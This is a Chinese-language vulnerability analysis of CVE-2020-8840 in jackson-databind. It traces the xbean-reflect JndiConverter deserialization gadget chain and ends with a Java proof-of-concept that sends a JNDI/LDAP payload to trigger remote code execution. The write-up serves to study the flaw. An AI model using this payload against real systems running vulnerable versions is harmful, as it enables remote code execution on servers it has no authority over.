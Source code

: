 （CVE-2020-8840）FasterXML jackson-databind 远程代码执行漏洞
============================================================

一、漏洞简介
------------

`FFasterXML/jackson-databind`是一个用于JSON和对象转换的Java第三方库，可将Java对象转换成json对象和xml文档，同样也可将json对象转换成Java对象。

此次漏洞中攻击者可利用`xbean-reflect`的利用链触发JNDI远程类加载从而达到远程代码执行。

二、漏洞影响
------------

-   jackson-databind 2.0.0 -- 2.9.10.2

-   经验证fastjson在开启了autoType功能的情况下，影响最新的fastjson
    v1.2.62版本

三、复现过程
------------

可以在git提交记录中清楚看到利用的具体类

![](./resource/(CVE-2020-8840)FasterXMLjackson-databind远程代码执行漏洞/media/rId24.png)

分析下利用链，通过传进参数`asText`，触发setter，`setAsText()`函数

![](./resource/(CVE-2020-8840)FasterXMLjackson-databind远程代码执行漏洞/media/rId25.png)

随后跟进`toObject()`函数

![](./resource/(CVE-2020-8840)FasterXMLjackson-databind远程代码执行漏洞/media/rId26.png)

最终进到`JndiConverter`重写的`toObjectImp()`函数

![](./resource/(CVE-2020-8840)FasterXMLjackson-databind远程代码执行漏洞/media/rId27.png)

此时出现经典的JNDI注入，text
刚好就是我们传进的asText，我们可控，从而达到命令执行目的

![](./resource/(CVE-2020-8840)FasterXMLjackson-databind远程代码执行漏洞/media/rId28.png)

### poc

    import com.fasterxml.jackson.databind.ObjectMapper;
    import java.io.IOException;

    public class Poc {
        public static void main(String args[]) {
            ObjectMapper mapper = new ObjectMapper();

            mapper.enableDefaultTyping();

            String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://localhost:1389/ExportObject\"}]";

            try {
                mapper.readValue(json, Object.class);
            } catch (IOException e) {
                e.printStackTrace();
            }

        }
    }
